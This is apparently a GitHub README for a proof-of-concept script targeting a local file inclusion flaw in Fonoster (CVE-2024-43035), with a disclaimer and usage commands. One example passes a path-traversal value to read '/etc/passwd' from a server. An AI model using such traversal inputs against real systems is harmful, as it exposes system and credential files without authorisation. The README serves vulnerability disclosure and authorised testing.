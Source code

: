 # CVE-2024-43035 - Fonoster LFI Proof of Concept

This repository contains a Proof of Concept (PoC) script demonstrating a [Local File Inclusion vulnerability in Fonoster](https://zeropath.com/blog/fonoster-voiceserver-lfi-vulnerability). **This tool is for educational and authorized testing purposes only.**

## Usage

### Read Local File
To retrieve a local file from the server:
```
python3 fonoster_lfi_poc.py --url <fonoster_server_url> --path <file_path_to_retrieve>
```

Example:

```
python3 fonoster_lfi_poc.py --url http://example.com --path "../../../etc/passwd"
```
z

